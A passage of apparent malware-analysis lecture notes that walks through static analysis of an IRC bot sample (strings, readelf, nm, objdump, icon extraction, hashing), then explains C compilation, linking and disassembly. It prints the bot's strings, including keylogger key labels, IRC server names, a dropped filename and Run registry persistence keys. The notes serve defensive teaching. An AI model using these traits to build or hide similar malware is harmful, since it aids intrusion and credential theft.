  -[Thread List]-
  %s: No %s thread found.
  %s: %s stopped. (%d thread(s) stopped.)
  i386\chkesp.c
  The value of ESP was not properly saved across a function call.  This is usually a result of calling a function declared with one calling convention with a function pointer declared with a different calling convention.
  format != NULL
  sprintf.c
  string != NULL
  vsprintf.c
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  R6018
  - unexpected heap error
  R6017
  - unexpected multithread lock error
  R6016
  - not enough space for thread data
  abnormal program termination
  R6009
  - not enough space for environment
  R6008
  - not enough space for arguments
  R6002
  - floating point not loaded
  Microsoft Visual C++ Runtime Library
  Runtime Error!
  Program:
  GetLastActivePopup
  GetActiveWindow
  MessageBoxA
  _getbuf.c
  _file.c
  osfinfo.c
  chsize.c
  size >= 0
  1#QNAN
  1#INF
  1#IND
  1#SNAN
  [ESC]
  [ESC]
  [F1]
  [F1]
  [F2]
  [F2]
  [F3]
  [F3]
  [F4]
  [F4]
  [F5]
  [F5]
  [F6]
  [F6]
  [F7]
  [F7]
  [F8]
  [F8]
  [F9]
  [F9]
  [F10]
  [F10]
  [F11]
  [F11]
  [F12]
  [F12]
  [TAB]
  [TAB]
  [CTRL]
  [CTRL]
  [WIN]
  [WIN]
  [WIN]
  [WIN]
  [PRSC]
  [PRSC]
  [SCLK]
  [SCLK]
  [INS]
  [INS]
  [HOME]
  [HOME]
  [PGUP]
  [PGUP]
  [DEL]
  [DEL]
  [END]
  [END]
  [PGDN]
  [PGDN]
  [LEFT]
  [LEFT]
  [UP]
  [UP]
  [RGHT]
  [RGHT]
  [DOWN]
  [DOWN]
  [NMLK]
  [NMLK]
  bbot
  bBot-Version 0.6
  index
  botirc.net
  #test
  irc.server2.net
  #channel2
  channelpass2
  wuamgrd32.exe
  key.txt
  winnt DNS ident
  bBot|
  sysconfig.dat
  #channel
  #channel
  #channel
  Software\Microsoft\Windows\CurrentVersion\Run
  Software\Microsoft\Windows\CurrentVersion\RunServices
  Software\Microsoft\OLE
  SYSTEM\CurrentControlSet\Control\Lsa
  const
  letter
  comp
  country
\end{lstlisting}

We can see further proof of there being a keylogger, usernames and passwords, etc.

and for the hello file;

\begin{lstlisting}[basicstyle=\tiny]
/lib64/ld-linux-x86-64.so.2
libc.so.6
puts
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Hello World!
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
/usr/lib/gcc/x86_64-linux-gnu/9/include
/usr/include/x86_64-linux-gnu/bits
/usr/include/x86_64-linux-gnu/bits/types
/usr/include
hello.c
stddef.h
types.h
struct_FILE.h
FILE.h
stdio.h
sys_errlist.h
_IO_buf_end
_old_offset
GNU C17 9.4.0 -mtune=generic -march=x86-64 -g -fasynchronous-unwind-tables -fstack-protector-strong -fstack-clash-protection -fcf-protection
/home/remnux/lab1/ch1
sys_nerr
_IO_save_end
short int
size_t
_IO_write_ptr
_flags
_IO_buf_base
_markers
_IO_read_end
_freeres_buf
stderr
_lock
long int
_cur_column
_IO_FILE
unsigned char
_IO_marker
_shortbuf
\end{lstlisting}


The strings utility can extract all printable strings with minimum
length of 4 characters. This length can be extended (or reduced) using the
option \lstinline|-n| and replacing \lstinline|n| with the desired minimum
length. It is important to
notice that one could find the same strings spread among the different sections,
however, the strings utility often exports them in a more readable format.

we could infer that this malware can:
\begin{itemize}
  \item Download arbitrary files on the victim machine
  \item Capture screenshots or even videos from the victim machine’s webcam
  \item Start a keylogger (namely, a software that can record all the key strokes
        and then it sends them to the attacker, so they can infer passwords, credit
        card details, etc)
  \item Start a server, possibly waiting for commands from the attacker.
\end{itemize}

While all these features might sound scary at first glance, it is even more
impressive that we found them out without even running the malware!

\subsection{readelf command}

The \lstinline|readelf| command displays information about ELF files, with
the \lstinline|-a| option showing all information.

For the lab
\lstinline|ircbot.exe| file, the output is the following;
\begin{lstlisting}
  readelf: Error: Not an ELF file - it has the wrong magic bytes at the start
\end{lstlisting}

and for the hello file;

\begin{lstlisting}[basicstyle=\tiny]
  ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Shared object file)
  Machine:                           Advanced Micro Devices X86-64
  Version:                           0x1
  Entry point address:               0x1060
  Start of program headers:          64 (bytes into file)
  Start of section headers:          16856 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         13
  Size of section headers:           64 (bytes)
  Number of section headers:         36
  Section header string table index: 35

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         0000000000000318  00000318
       000000000000001c  0000000000000000   A       0     0     1
  [ 2] .note.gnu.propert NOTE             0000000000000338  00000338
       0000000000000020  0000000000000000   A       0     0     8
  [ 3] .note.gnu.build-i NOTE             0000000000000358  00000358

\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  000000000000015a  0000000000000000           0     0     1
  Key to Flags:
    W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
    L (link order), O (extra OS processing required), G (group), T (TLS),
    C (compressed), x (unknown), o (OS specific), E (exclude),
    l (large), p (processor specific)

  There are no section groups in this file.

  Program Headers:
    Type           Offset             VirtAddr           PhysAddr
                   FileSiz            MemSiz              Flags  Align
    PHDR           0x0000000000000040 0x0000000000000040 0x0000000000000040
                   0x00000000000002d8 0x00000000000002d8  R      0x8
    INTERP         0x0000000000000318 0x0000000000000318 0x0000000000000318
                   0x000000000000001c 0x000000000000001c  R      0x1
        [Requesting program interpreter: /lib64/ld-linux-x86-64.so.2]
    LOAD           0x0000000000000000 0x0000000000000000 0x0000000000000000
                   0x00000000000005f8 0x00000000000005f8  R      0x1000
    LOAD           0x0000000000001000 0x0000000000001000 0x0000000000001000
                   0x00000000000001f5 0x00000000000001f5  R E    0x1000
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  GNU_RELRO      0x0000000000002db8 0x0000000000003db8 0x0000000000003db8
  0x0000000000000248 0x0000000000000248  R      0x1

Section to Segment mapping:
Segment Sections...
00
01     .interp
02     .interp .note.gnu.property .note.gnu.build-id .note.ABI-tag .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rela.dyn .rela.plt
03     .init .plt .plt.got .plt.sec .text .fini
04     .rodata .eh_frame_hdr .eh_frame
05     .init_array .fini_array .dynamic .got .data .bss
06     .dynamic
07     .note.gnu.property
08     .note.gnu.build-id .note.ABI-tag
09     .note.gnu.property
10     .eh_frame_hdr
11
12     .init_array .fini_array .dynamic .got

Dynamic section at offset 0x2dc8 contains 27 entries:
Tag        Type                         Name/Value
0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
0x000000000000000c (INIT)               0x1000
0x000000000000000d (FINI)               0x11e8
0x0000000000000019 (INIT_ARRAY)         0x3db8
0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
0x000000000000001a (FINI_ARRAY)         0x3dc0
0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
0x000000006ffffef5 (GNU_HASH)           0x3a0
0x0000000000000005 (STRTAB)             0x470
\end{lstlisting}
...
\begin{lstlisting}[basicstyle=\tiny]
  69: 0000000000000000     0 FUNC    WEAK   DEFAULT  UND __cxa_finalize@@GLIBC_2.2

  Histogram for `.gnu.hash' bucket list length (total of 2 buckets):
   Length  Number     % of total  Coverage
        0  1          ( 50.0%)
        1  1          ( 50.0%)    100.0%

  Version symbols section '.gnu.version' contains 7 entries:
   Addr: 0x00000000000004f2  Offset: 0x0004f2  Link: 6 (.dynsym)
    000:   0 (*local*)       0 (*local*)       2 (GLIBC_2.2.5)   2 (GLIBC_2.2.5)
    004:   0 (*local*)       0 (*local*)       2 (GLIBC_2.2.5)

  Version needs section '.gnu.version_r' contains 1 entry:
   Addr: 0x0000000000000500  Offset: 0x000500  Link: 7 (.dynstr)
    000000: Version: 1  File: libc.so.6  Cnt: 1
    0x0010:   Name: GLIBC_2.2.5  Flags: none  Version: 2

  Displaying notes found in: .note.gnu.property
    Owner                Data size 	Description
    GNU                  0x00000010	NT_GNU_PROPERTY_TYPE_0
        Properties: x86 feature: IBT, SHSTK

  Displaying notes found in: .note.gnu.build-id
    Owner                Data size 	Description
    GNU                  0x00000014	NT_GNU_BUILD_ID (unique build ID bitstring)
      Build ID: c4ca94a565da4fff997e9fbf8d927d9c714da38c

  Displaying notes found in: .note.ABI-tag
    Owner                Data size 	Description
    GNU                  0x00000010	NT_GNU_ABI_TAG (ABI version tag)
      OS: Linux, ABI: 3.2.0
\end{lstlisting}

Here we can see the different sections in the file and header information.

\subsection{nm command}

The \lstinline|nm| command lists symbols from object files.

For the lab
\lstinline|ircbot.exe| file, the output is the following;
\begin{lstlisting}
  nm: ircbot.exe: no symbols
\end{lstlisting}

and for the hello file;
\begin{lstlisting}[basicstyle=\tiny]
  0000000000004010 B __bss_start
0000000000004010 b completed.8061
                 w __cxa_finalize@@GLIBC_2.2.5
0000000000004000 D __data_start
0000000000004000 W data_start
0000000000001090 t deregister_tm_clones
0000000000001100 t __do_global_dtors_aux
0000000000003dc0 d __do_global_dtors_aux_fini_array_entry
0000000000004008 D __dso_handle
0000000000003dc8 d _DYNAMIC
0000000000004010 D _edata
0000000000004018 B _end
00000000000011e8 T _fini
0000000000001140 t frame_dummy
0000000000003db8 d __frame_dummy_init_array_entry
000000000000215c r __FRAME_END__
0000000000003fb8 d _GLOBAL_OFFSET_TABLE_
                 w __gmon_start__
0000000000002014 r __GNU_EH_FRAME_HDR
0000000000001000 t _init
0000000000003dc0 d __init_array_end
0000000000003db8 d __init_array_start
0000000000002000 R _IO_stdin_used
                 w _ITM_deregisterTMCloneTable
                 w _ITM_registerTMCloneTable
00000000000011e0 T __libc_csu_fini
0000000000001170 T __libc_csu_init
                 U __libc_start_main@@GLIBC_2.2.5
0000000000001149 T main
                 U puts@@GLIBC_2.2.5
00000000000010c0 t register_tm_clones
0000000000001060 T _start
0000000000004010 D __TMC_END__
\end{lstlisting}

Here we can see, the use of IO, and other operations.

\section{Using objdump}

\lstinline|objdump| is a command-line
utility that can be used to reverse engineer binaries, or simply to get more
information on a given executable file.

\lstinline|objdump -x ./ircbot.exe|\\
The \lstinline|-x| option displays the contents of all headers. If done correctly, you
should see lots of information being displayed on the screen

The start of the objdump output;
\begin{lstlisting}[basicstyle=\tiny]
./ircbot.exe:     file format pei-i386
./ircbot.exe
architecture: i386, flags 0x0000010a:
EXEC_P, HAS_DEBUG, D_PAGED
start address 0xcc40ffee

Characteristics 0x10f
	relocations stripped
	executable
	line numbers stripped
	symbols stripped
	32 bit words

Time/Date		Mon Apr  2 12:34:14 2012
Magic			010b	(PE32)
MajorLinkerVersion	6
MinorLinkerVersion	0
SizeOfCode		00032a00
SizeOfInitializedData	00064200
SizeOfUninitializedData	00000000
AddressOfEntryPoint	cc00ffee
BaseOfCode		00001000
BaseOfData		00001000
ImageBase		00400000
SectionAlignment	00001000
FileAlignment		00000200
MajorOSystemVersion	4
MinorOSystemVersion	0
MajorImageVersion	0
MinorImageVersion	0
MajorSubsystemVersion	4
\end{lstlisting}

We can immediately identify the file format, pei-i386, and
the architecture, i386; hence, we can infer that this is a x86 executable.

On the
second half of the screen, we can see some useful information on the executable
file. An interesting find is what supposedly is the compilation timestamp of the
binary, on the field Time/Date. However, keep in mind that malware authors
often edit this field with random values, to hinder malware analysis procedures.

Import Table information obtained using objdump;
\begin{lstlisting}[basicstyle=\tiny]
There is an import table in .idata at 0x496000

The Import Tables (interpreted .idata section contents)
 vma:            Hint    Time      Forward  DLL       First
                 Table   Stamp     Chain    Name      Thunk
 00096000	00000000 00000000 00000000 00096424 00096230

	DLL Name: KERNEL32.DLL
	vma:  Hint/Ord Member-Name Bound-To
	9643c	    0  GetLocalTime
	9644a	    0  ExitThread
	96456	    0  CloseHandle
	96464	    0  WriteFile
	96470	    0  CreateFileA
	9647e	    0  ExitProcess
	9648c	    0  CreateProcessA
	9649c	    0  GetTickCount
	964aa	    0  GetModuleFileNameA
	964be	    0  GetSystemDirectoryA
	964d4	    0  Sleep
	964dc	    0  GetTimeFormatA
	964ec	    0  GetDateFormatA
	964fc	    0  GetLastError
	9650a	    0  CreateThread
	96518	    0  GetFileSize
\end{lstlisting}

This part of the output is telling us that the .idata section contains
an Import Table and it shows us its contents, namely the DLL files that are
imported by the binary and the relative functions.

We can see that 2 DLL files are being imported;\\
"KERNEL32.DLL","USER32.dll"

Lastly, objdump shows us information about all sections found within the
executable, along with their name, dimension, and virtual memory address.
This is really useful to understand which instructions are going
to be used by the malware.

\begin{lstlisting}[basicstyle=\tiny]
Sections:
Idx Name          Size      VMA       LMA       File off  Algn
  0 .text         00032830  00401000  00401000  00000400  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
  1 .rdata        0000427a  00434000  00434000  00032e00  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
  2 .data         00002a00  00439000  00439000  00037200  2**2
                  CONTENTS, ALLOC, LOAD, DATA
  3 .idata        00000bb0  00496000  00496000  00039c00  2**2
                  CONTENTS, ALLOC, LOAD, DATA
  4 .reloc        0000211d  00497000  00497000  0003a800  2**2
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
SYMBOL TABLE:
no symbols
\end{lstlisting}

If you wish to check the contents of a single section, you can use the following
syntax, replacing \lstinline|SECNAME| with the desired section name:\\
\lstinline|objdump -s --section SECNAME ./ircbot.exe|

\section{Dealing with Malware Images}

Sometimes malware binaries trick the user victim into believing that they
are PDF or Microsoft Word files, while instead they are malicious executable
files. This happens especially when the user did not enable the ”File Name
Extensions” option in Windows.

Without seeing any extension, it is easier to
believe that an executable file is instead a PDF file, just because it has the
Adobe Acrobat icon.

\begin{lstlisting}
  mkdir images
  wrestool -x fakepdfmalware.exe --output=images
  icotool -x -o images images/*.ico
\end{lstlisting}

Any "don’t know how to extract resource, try --raw" error is normal
and can be ignored.

Some more information on these commands/utilities:
\begin{itemize}
  \item \lstinline|wrestool| extracts (\lstinline|-x|) image resources from the
        selected file (\lstinline|fakepdfmalware.exe|)
        to the specified directory (\lstinline|--output=images|).
  \item \lstinline|icotool| extracts (\lstinline|-x|) and converts .ico files found in the target directory
        (\lstinline|images/*.ico|) into .png files that are saved into the specified output
        directory (\lstinline|-o images|).
\end{itemize}

So wrestool provided the icon for the file, and icotool converts that to a png.

\section{Fingerprinting}

When we want to identify a malware specimen, we need to know if we have
seen it in the past, or if other researchers already have studied and classified
it.

The filename is not enough to identify a malware, because any user (and
the attacker themselves) could rename the sample before sending it to multiple
victims. Because of this, we need a more accurate method to identify binaries5.

Fingerprinting is the generation of the cryptographic hash of the content
of the binary, with an algorithm such as MD5, SHA1 or SHA256. Since even
small changes in the file content would cause a radical variation in the resulting
hash, such calculated value can serve as a unique identifier for that malware.

Since the filename is not part of the file content, the hash will always remain
the same.

Such hash can be shared with other researchers, and it can be useful during
dynamic analysis, in case our sample replicates itself in another memory location
(or drops a different malware somewhere else).

Utilities such as md5sum, sha1sum
and sha256sum can calculate the relative cryptographic hash of the target file(s).

You can calculate several hashes at once, for example:\\
\lstinline|md5sum ircbot.exe fakepdfmalware.exe fakeword.exe|\\
Will return three different MD5 hashes, one per file.

\chapter{Lecture 2 - Anatomy of a Binary}

Modern computers perform their computations using the binary numerical system\\
(sequences of ones and zeros (representing electric signals - on and off - two voltages) for data and instructions)
The machine code that these systems execute is called binary code

Every program is a single self-contained file that consists of a binary code
(the machine instructions) and data (variables, constants, etc)

Because these files contain executable binary programs, they are called binary
executable files, or simply binaries

Some specifics binary formats are Executable and Linkable Format (\colorbox{green}{ELF}) (used in linux) and Portable
Executable (\colorbox{green}{PE}) (used in windows)

\section{The C Compilation Process}

Binaries are produced through compilation. This is the process of translating human-readable
source code, such as C or C++, into machine code that the processor can execute

\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{c_compilation.png}
\end{figure}

Compiling C code involves four phases: preprocessing, compilation, assembly, and linking

\subsection{The Preprocessing Phase}

Typically, the compilation process starts with \colorbox{yellow}{several source files}

C source files contain \colorbox{green}{macros} (denoted by \#define) and \#include directives \\
(to include header files with the extension .h)

The preprocessing phase \colorbox{yellow}{expands these directives} in the source file so that \colorbox{yellow}{only pure C code} \colorbox{yellow}{is
  left}, which is ready to be compiled

This can be done with gcc -E -P:\\
• -E tells gcc to stop after preprocessing\\
• -P causes the compiler to omit debugging information

\begin{lstlisting}
  #include <stdio.h>
  #define FORMAT_STRING "%s "
  #define MESSAGE "Hello, world! \n"
  int
  main(int argc , char *argv [ ]) {
    printf(FORMAT_STRING , MESSAGE);
    return 0;
  }
\end{lstlisting}
After \lstinline|gcc -E -P compilation_example.c| it turns into;\\
\begin{lstlisting}[mathescape]

  typedef long unsigned int size_t;
  typedef unsigned char __u_char;
  typedef unsigned short int __u_short;
  typedef unsigned int __u_int;
  typedef unsigned long int __u_long;

  /*. . . */

  extern int sys_nerr ;
  extern const char *const sys_errlist [ ] ;
  extern int fileno (FILE *__stream) __attribute__ ( ( __nothrow__ , __leaf__) ) ;
  extern int fileno_unlocked (FILE *__stream) __attribute__ ( ( __nothrow__ , __leaf__) ) ;
  extern FILE *popen ( const char *__command , const char *__modes) ;
  extern int pclose (FILE *__stream) ;
  extern char *ctermid (char *__s) __attribute__ ( ( __nothrow__ , __leaf__) ) ;
  extern void flockfile (FILE *__stream) __attribute__ ( ( __nothrow__ , __leaf__) ) ;
  extern int ftrylockfile (FILE *__stream) __attribute__ ( ( __nothrow__ , __leaf__) ) ;
  extern void funlockfile (FILE *__stream) __attribute__ ( ( __nothrow__ , __leaf__) ) ;

  int
  main(int argc , char *argv [ ] ) {
    printf($\circled{1}$ "%s " , $\circled{2}$ "Hello, world! \n");
    return 0 ;
  }
\end{lstlisting}

The "stdio.h" header is copied in (type definitions, global variables,
and function prototypes) in the source file, therefore the output can be
quite verbose

The preprocessor also fully expands all uses of any macros in \#define:\\
e.g., both arguments to \lstinline[mathescape]|printf(FORMAT_STRING $\circled{1}$ and MESSAGE $\circled{2}$ )|
are evaluated and replaced by the constant strings they represent\\

Now, the preprocessing phase is complete and the source is ready to be compiled

\subsection{The Compilation Phase}

The compilation phase takes the preprocessed code and \colorbox{yellow}{translates it into
  assembly language};
a somehow “human-readable form” (at least compared to machine code),
with symbolic information intact

\colorbox{yellow}{Optimization} usually happens in this phase (e.g., -O0 through -O3 in gcc)

In gcc you can to stop after this stage and store the assembly files
to disk by using the -S flag\\
.s is a conventional extension for assembly files

The compilation phase produces assembly language and not machine code
since it \colorbox{yellow}{needs to} \colorbox{yellow}{know what architecture to go to}, since binary is specific.
This information, from the OS, will be added later.

After \lstinline|$ gcc -S -masm=intel compilation_example.c|\\
and \lstinline|$ cat compilation_example.s|;
\begin{lstlisting}[mathescape]
                .file      "compilation_example.c"
                .intel_syntax noprefix
                .section       .rodata
                $\circled{1}$ .LC0:
                  .string       "Hello, world!"
                  .text
                  .globl    main
                  .type     main, @function
$\circled{2}$ main:
.LFB0:
                  .cfi_startproc
                  push   rbp
                  .cfi_def_cfa_offset 16
                  .cfi_offset 6, -16
                  mov   rbp, rsp
                  .cfi_def_cfa_register 6
                  sub   rsp , 16
                  mov   DWORD PTR [rbp-4], edi
                  mov   QWORD PTR [rbp-16], rsi
                  mov   edi, $\circled{3}$ OFFSET FLAT: .LC0
                  call  puts
                  mov   eax, 0
                  leave
                  .cfi_def_cfa 7 , 8
                  ret
                  .cfi_endproc
.LFE0 :
                  .size main, .-main
                  .ident "GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609"
                  .section .note.GNU-stack , " " ,@progbits
\end{lstlisting}

Assembly code is relatively easy to read
(symbols and functions have been preserved)

\colorbox{yellow}{Constants and variables have symbolic names} rather than just addresses,
although with an automatically generated name:\\
• LC0 $\circled{1}$ for the nameless "Hello, world!" string\\
• explicit label for the main function $\circled{2}$\\
• any reference to code and data is also symbolic, such as the reference to the "Hello, world!" string $\circled{3}$

"call puts"  is the print function

\section{The Assembly Phase}

The input of the assembly phase is the set of assembly language files generated
in the compilation phase

The output is a set of \colorbox{yellow}{object files}, sometimes also referred to as modules

Object files contain machine instructions that are in principle executable
by the processor

Typically, each source file \colorbox{yellow}{corresponds} to one assembly file, and each
assembly file corresponds to one object file

To generate an object file, you pass the -c flag to gcc

\begin{lstlisting}
  $ gcc -c compilation_example.c
  $ file compilation_example. o
  compilation_example.o: ELF 64-bit LSB relocatable, x86-64, version 1 ( SYSV), not stripped
\end{lstlisting}

The file shows up as an ELF 64-bit LSB relocatable file, meaning:
\begin{itemize}
  \item it conforms to the ELF specification for binary executables for x86-64
  \item it is \colorbox{green}{LSB}, meaning that numbers are ordered in memory with their \colorbox{yellow}{least significant byte} \colorbox{yellow}{first}
  \item file is \colorbox{yellow}{relocatable}, namely it \colorbox{yellow}{doesn’t rely on being placed at any particular address} in memory
        \begin{itemize}
          \item can be moved around without breaking any assumptions in the code
          \item we know we are dealing with an object file and not with an executable
          \item as object files are compiled independently from each other
                the assembler has no way of knowing the memory addresses of other
                object files when assembling an object file
        \end{itemize}
\end{itemize}

\section{The Linking Phase}

This is the last phase that \colorbox{yellow}{links together all the object files} into a
\colorbox{yellow}{single binary executable}

The program that performs the linking phase is called a \colorbox{green}{linker}\\
\colorbox{yellow}{It merges object files into a single executable and resolves symbolic references}

Remember that object files are relocatable so not bound to any particular
base address. Moreover, object files \colorbox{yellow}{may reference functions or variables
  in other object files} or in external libraries

Therefore, before the linking phase, the addresses at which the referenced
code and data will be placed are not yet known:\\
object files \colorbox{yellow}{only contain relocation symbols} that specify \colorbox{yellow}{how} function
and variable \colorbox{yellow}{references} \colorbox{yellow}{should be resolved}

In the context of linking, references that rely on a relocation symbol
are called \colorbox{green}{symbolic references}

When an object file references one of its own functions or variables
by absolute address, the reference will also be symbolic

The linker’s job is to take all the object files belonging to a program
and merge them into a single coherent executable,
typically intended to be loaded at a particular memory address

The \colorbox{yellow}{linker resolves most symbolic references};\\
references to libraries may or may not be completely resolved, depending on
the type of library

\colorbox{yellow}{Static libraries are merged into the binary executable}, allowing any
references to them to be resolved entirely

There are also dynamic (shared) libraries, which are \colorbox{yellow}{shared in memory among
  all programs} that run on a system

during the linking phase, the \colorbox{yellow}{addresses} at which dynamic libraries will
reside are \colorbox{yellow}{not yet known}

the \colorbox{yellow}{linker leaves symbolic references} to these libraries even in the
final executable

these references are \colorbox{yellow}{only resolved} when the binary is \colorbox{yellow}{actually loaded} into
memory to be executed

\begin{lstlisting}[mathescape]
  $\$$ gcc compilation_example. c
  $\$$ file a. out
a.out: $\circled{1}$ ELF 64-bit LSB executable, x86-64, version 1 (SYSV), $\circled{2}$ dynamically linked, $\circled{3}$ interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=d0e23ea731bce9de65619cadd58b14ecd8c015c7, not stripped
  $\$$./a.out
Hello, world!
\end{lstlisting}

We are dealing with an ELF 64-bit LSB executable $\circled{1}$ (not a relocatable file)

The file is dynamically linked $\circled{2}$ , i.e. it uses some shared libraries

The interpreter /lib64/ld-linux-x86-64.so.2 $\circled{3}$ show the dynamic
linker that will be used to resolve the final dependencies at run-time on the
dynamic libraries

\section{Symbols}

When compiling a program, compilers emit \colorbox{yellow}{symbols, to keep track of symbolic names} and record which binary code and data
\colorbox{yellow}{correspond} to each symbol

For instance, function symbols provide a \colorbox{yellow}{mapping} from symbolic, high-level
function names to the first address (and the size) of each function

This information is normally \colorbox{yellow}{used by the linker when combining object files}

For instance, to resolve function and variable references between modules\\
\colorbox{pink}{it also aids debugging}

\begin{lstlisting}[mathescape]
  $\$$ $\circled{1}$ readelf --syms a.out
  Symbol table '.dynsym ' contains 4 entries:
  Num: Value Size Type Bind Vis Ndx Name
  0: 0000000000000000 0 NOTYPE LOCAL DEFAULT UND
  1: 0000000000000000 0 FUNC GLOBAL DEFAULT UND puts@GLIBC_2.2.5 (2)
  2: 0000000000000000 0 FUNC GLOBAL DEFAULT UND __libc_start_main@GLIBC_2.2.5 (2)
  3: 0000000000000000 0 NOTYPE WEAK DEFAULT UND __gmon_start__
  Symbol table '.symtab' contains 67 entries:
  Num: Value Size Type Bind Vis Ndx Name
  ...
  56: 0000000000601030 0 OBJECT GLOBAL HIDDEN 25 __dso_handle
  57: 00000000004005d0 4 OBJECT GLOBAL DEFAULT 16 _IO_stdin_used
  58: 0000000000400550 101 FUNC GLOBAL DEFAULT 14 __libc_csu_init
  59: 0000000000601040 0 NOTYPE GLOBAL DEFAULT 26 _end
  60: 0000000000400430 42 FUNC GLOBAL DEFAULT 14 _start
  61: 0000000000601038 0 NOTYPE GLOBAL DEFAULT 26 __bss_start
  62: 0000000000400526 32 FUNC GLOBAL DEFAULT 14 $\circled{2}$main
  63: 0000000000000000 0 NOTYPE WEAK DEFAULT UND _Jv_RegisterClasses
  64: 0000000000601038 0 OBJECT GLOBAL HIDDEN 25 __TMC_END__
  65: 0000000000000000 0 NOTYPE WEAK DEFAULT UND _ITM_registerTMCloneTable
  66: 00000000004003c8 0 FUNC GLOBAL DEFAULT 11 _init
\end{lstlisting}

We’ve used readelf to display the symbols $\circled{1}$

Among others, there is a symbol for the main function $\circled{2}$:\\
• it specifies the address (0x400526) at which main will reside when the binary is loaded into memory\\
• it also shows the code size of main (32 bytes) and indicates that we are
dealing with a function symbol (type FUNC)

Symbolic information can be emitted as part of the binary or in the form of
a separate symbol file

The linker needs only basic symbols, but far more extensive information can
be emitted for debugging purposes:\\
e.g., providing a full mapping between source lines and binary-level
instructions

Symbolic information is \colorbox{pink}{extremely useful for binary analysis}, e.g. during
disassembly

\section{Disassembling an Object File}

\begin{lstlisting}[mathescape]
  $\$$ $\circled{1}$ objdump -sj .rodata compilation_example.o

  compilation_example.o   file format elf64-x86-64

  Contents of section .rodata:
    0000 48656c6c 6f2c2077 6f726c64 2100       Hello, world! .

  $\$$ $\circled{2}$ objdump -M intel -d compilation_example.o

  compilation_example.o: file format elf64-x86-64

  Disassembly of section .text :

  0000000000000000 $\circled{3}$<main>:
  0: 55                             push         rbp
  1: 48 89 e5                       mov          rbp, rsp
  4: 48 83 ec 10                    sub          rsp, 0 x10
  8: 89 7d fc                       mov          DWORD PTR [rbp-0x4], edi
  b: 48 89 75 f0                    mov          QWORD PTR [rbp-0x10], rsi
  f: bf 00 00 00 00                 mov          edi, $\circled{4}$ 0x0
  14: e8 00 00 00 00                $\circled{5}$call           19 <main+0x19>
  19: b8 00 00 00 00                mov          eax, 0x0
  1e: c9                            leave
  1f: c3                            ret
\end{lstlisting}

We’ve used objdump to disassemble it

\colorbox{green}{.rodata} section stands for \colorbox{yellow}{read-only data}:\\
• part of the binary where all \colorbox{yellow}{constants} are stored, including “Hello, world!”\\
• it consists of an ASCII encoding of the string, shown on the left side of the output,
while the right side shows the human-readable representation

In the main function $\circled{3}$, note that the pointer to the "Hello, world!" string ($\circled{4}$) is set to zero:\\
• the call $\circled{5}$ that should print the string (puts) also points to a weird location\\
(offset 19, i.e. in the middle of main - not as clear as the assembly from before; it is the hello world string)\\
• the object file is waiting for the linker to fill in the correct value for this reference

\section{Examining a Complete Binary Executable}

\begin{lstlisting}[mathescape]
  $\$$ objdump -M intel -d a.out


a.out: file format elf64-x86-64


Disassembly of section $\circled{1}$.init:

00000000004003c8 <_init>:
4003c8: 48 83 ec 08             sub       rsp, 0x8
4003cc: 48 8b 05 25 0c 20 00    mov       rax, QWORD PTR [rip+0x200c25]
4003d3: 48 85 c0                test      rax, rax
4003d6: 74 05                   je        4003dd <_init+0x15>
4003d8: e8 43 00 00 00          call      400420 <__libc_start_main@plt+0x10>
4003dd: 48 83 c4 08             add       rsp, 0x8
4003e1: c3                      ret

Disassembly of section $\circled{2}$.plt:

00000000004003f0 <puts@plt-0x10>:
  4003f0: ff 35 12 0c 20 00     push   QWORD PTR [rip+0x200c12]
  4003f6: ff 25 14 0c 20 00     jmp    QWORD PTR [rip+0x200c14]
  4003fc: 0f 1f 40 00           nop    DWORD PTR [rax+0x0]

0000000000400400 <puts@plt>:
  400400: ff 25 12 0c 20 00     jmp    QWORD PTR [rip+0x200c12]
  400406: 68 00 00 00 00        push   0x0
  40040b: e9 e0 ff ff ff        jmp    4003f0 <_init+0x28>'

Disassembly of section $\circled{3}$.text:

0000000000400430 <_start>:
  400430: 31 ed                 xor   ebp, ebp
  400432: 49 89 d1              mov   r9, rdx
  400435: 5e                    pop   rsi
  400436: 48 89 e2              mov   rdx , rsp
  400439: 48 83 e4 f0           and   rsp , 0xfffffffffffffff0
  40043d: 50                    push  rax
  40043e: 54                    push  rsp
  40043f: 49 c7 c0 c0 05 40 00  mov   r8, 0x4005c0
  400446: 48 c7 c1 50 05 40 00  mov   rcx, 0x400550
  40044d: 48 c7 c7 26 05 40 00  mov   rdi, 0x400526
